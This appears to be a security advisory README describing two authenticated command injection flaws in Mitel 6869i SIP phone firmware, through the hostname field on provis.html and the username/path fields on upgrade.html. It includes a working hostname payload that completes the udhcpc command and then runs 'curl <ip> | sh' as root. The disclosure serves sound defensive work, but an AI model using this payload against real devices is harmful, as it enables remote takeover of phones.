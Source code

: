 # Mitel 6869i  4.5.0.41, 5.0.0.1018
Multiple firmware version (4.5.0.41, 5.0.0.1018) of the Mitel 6869i SIP Phone were found to be vulnerable to a authenticated remote command execution (command injection) vulnerability. The web application hosted by the device, fails to properly sanitize user supplied Input resulting in the ability to execute arbitrary commands.

## Authenticated Remote Command Execution (provis)
The Mitel 6869i SIP Phone, firmware version 4.5.0.41, 5.0.0.1018, and earlier fail to properly sanitize user supplied input. The 'Network Settings' (`provis.html`) page does not perform sanitization the ``hostname`` parameter prior to writing the contents to the local configuration file ``/nvdata/etc/local.cfg``.

On devices boot, it is assumed that the ``/nvdata/etc/local.cfg``, or another configuration file containing the modified hostname parameter Is used as apart of a shell script.

By submitting a specially crafted HTTP POST request to the ``/provis.html`` endpoint containing certain characters, arbitrary commands under the user context of root can be executed.

During the boot process, the ``hostname`` parameter is eventually read into a shell script without sanitization, resulting in code execution. For the device to be functional during and after execution, the original `'udhcpc'` command must be set to its original state with any trailing data being nullified.

Using the payload ``QWERTY -t 302400 -T 6 -b -a -i eth0 -s /usr/share/udhcpc/default.script -p /var/run/udhcpc.eth.pid; curl <ip> | sh #`` In the ``hostname`` parameter, the original ``udhcpc`` command is completed, allowing any additional commands to succeed.

A full demonstration against the Mitel 6869i SIP Phone 4.5.0.41 can be viewed on YouTube, at https://www.youtube.com/watch?v=I9TQqfP5qzM.

### Affected Assets
Affected assets are based on tested firmware versions. It's possible that other versions may contain the same vulnerability. 

**REV00 6869i 4.5.0.41**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015546rev00450416869i.zip?modified=20180425183828

**REV03 6869i 5.0.0.1018 SP1**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015373rev035001018sp16869i.zip?modified=20180425183909

## Authenticated Remote Command Execution (firmware)
The Mitel 6869i SIP Phone, firmware version 4.5.0.41 fails to properly sanitize user supplied input. The 'Manual Firmware Update' (`upgrade.html`) page does not perform sanitization the `username` and `path` parameter prior to appending the flags to the busybox `ftpget` command. 

![source](images/01.png)

By sending a specially crafted HTTP POST request containing command substitution syntax (`$()`) to the endpoint `upgrade.html` arbitrary commands can be executed.  

![source](images/02.png)

### Affected Assets
Affected assets are based on tested firmware versions. It's possible that other versions may contain the same vulnerability. 
**REV00 6869i 4.5.0.41**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015546rev00450416869i.zip?modified=20180425183828
